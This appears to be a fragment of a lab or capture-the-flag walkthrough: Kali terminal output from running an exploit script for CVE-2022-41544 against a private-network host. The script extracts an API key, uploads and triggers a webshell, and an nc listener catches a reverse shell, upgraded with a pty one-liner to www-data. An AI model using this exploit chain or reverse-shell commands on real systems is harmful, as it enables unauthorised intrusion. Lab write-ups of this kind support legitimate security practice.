 ```

  

```

  

```

┌──(root㉿kali)-[/home/kali/Documents/UGC/ParkMgmt]

└─# python3 51475.py 192.168.174.140 / 192.168.174.128:443 coolranger

/home/kali/Documents/UGC/ParkMgmt/51475.py:16: DeprecationWarning: 'telnetlib' is deprecated and slated for removal in Python 3.13

  import telnetlib

  

 CCC V     V EEEE      22   000   22   22      4  4  11  5555 4  4 4  4

C    V     V E        2  2 0  00 2  2 2  2     4  4 111  5    4  4 4  4

C     V   V  EEE  ---   2  0 0 0   2    2  --- 4444  11  555  4444 4444

C      V V   E         2   00  0  2    2          4  11     5    4    4

 CCC    V    EEEE     2222  000  2222 2222        4 11l1 555     4    4

[+] the version 3.3.16 is vulnrable to CVE-2022-41544

[+] apikey obtained 9344e8fd7e174240ddc1513643e64102

[+] csrf token obtained

[+] Shell uploaded successfully!

[+] Webshell trigged successfully!

```

  

```

┌──(root㉿kali)-[/home/kali/Documents/UGC/ParkMgmt]

└─# rlwrap -cAr nc -lvnp 443

listening on [any] 443 ...

connect to [192.168.174.128] from (UNKNOWN) [192.168.174.140] 45726

python3 -c 'import pty; pty.spawn("/bin/sh")'

  
  

$ whoami

whoami

www-data

  
```